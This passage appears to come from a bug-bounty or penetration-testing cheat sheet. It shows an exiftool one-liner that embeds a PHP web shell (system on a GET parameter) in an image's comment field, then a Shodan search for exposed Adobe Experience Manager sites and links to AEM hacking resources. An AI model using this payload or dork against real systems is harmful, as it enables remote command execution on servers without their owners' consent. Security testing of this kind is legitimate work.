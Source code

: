       ```php
      exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' pic.jpg
      ```

### **Adobe Experience Manager (AEM) Configuration Testing**

Shodan Dork:

`http.component:"Adobe Experience Manager"`

Resources\
[AEM Hacker Tool](https://github.com/0ang3el/aem-hacker)\
[SlideShare presentation on AEM by 0ang3el](https://www.slideshare.net/0ang3el/aem-hacker-approaching-adobe-experience-manager-webapps-in-bug-bounty-programs)
